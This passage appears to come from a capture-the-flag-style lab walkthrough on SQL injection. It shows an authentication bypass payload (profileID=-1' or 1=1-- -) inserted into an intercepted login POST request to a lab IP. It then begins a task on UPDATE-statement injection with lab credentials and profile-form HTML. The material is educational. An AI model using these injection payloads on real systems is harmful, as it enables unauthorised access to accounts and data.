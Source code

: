 ```shell
profileID=a&password=a
```

To the following:

```shell
profileID=-1' or 1=1-- -&password=a
```

And click on Forward, we will get access after forwarding the request (Forward the request that appears after forwarding the first one as well). The final edited request will look like this:

```shell
POST /sesqli4/login HTTP/1.1
Host: 10.10.147.249:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://10.10.147.249:5000
Connection: keep-alive
Referer: http://10.10.147.249:5000/sesqli4/login
Cookie: session=.eJy90T1rAzEMBuD_4jmDZclfN5dCl2ydgyzLcPTSS-9SSgn573WaUjp0yJTNegXCj3Qyq65v0wi7ykc2w8k8Pz2YATZG9zxOZjBmY155r_31uPCrzON6SUZ52V7TXh14XQ_zctwuvU7Beue9BbKJfpof81J7iyRhi1a4IYNkFhKK1WXyaltMLVb0HCUDcVJIEJBFHSaGohqgXKYtcxsnvfzRgO3ByhMvn2Zw3p43v5j3VZfdWL8h18zdAxhDsT6R5lyiLZRj4UAJfQH1SuoseEc-Bs7AMSFy6lYIWlBQ-sRbge4fIN4DKNJIwEJOXrEo98vFLuAWiqaMNtUivd-6EauWvoB-Xwrias0EILcC8Q_w_AWU8MZk.ZzEb9g.d58tkAuuBx1kA0TC_RMFoVpK_bU
Upgrade-Insecure-Requests: 1

profileID=-1' or 1=1-- -&password=a
```

### Task 3 - Introduction to SQL Injection: Part 2
#### UPDATE Statement
First log in using the following credentials:

```shell
# profileID
10

# password
toor
```

Once we are in, click on Edit Profile.

##### Detecting Vulnerability

Now do right-click -> View Source Code.

Examining the code, the part that is of interest to us is the following:

```shell
<div class="login-form">
    <form action="/sesqli5/profile" method="post">
        <h2 class="text-center">Edit Francois's Profile Information</h2>
        <div class="form-group">
            <label for="nickName">Nick Name:</label>
            <input type="text" class="form-control" placeholder="Nick Name" id="nickName" name="nickName" value="">
        </div>
        <div class="form-group">
            <label for="email">E-mail:</label>
            <input type="text" class="form-control" placeholder="E-mail" id="email" name="email" value="">
        </div>
```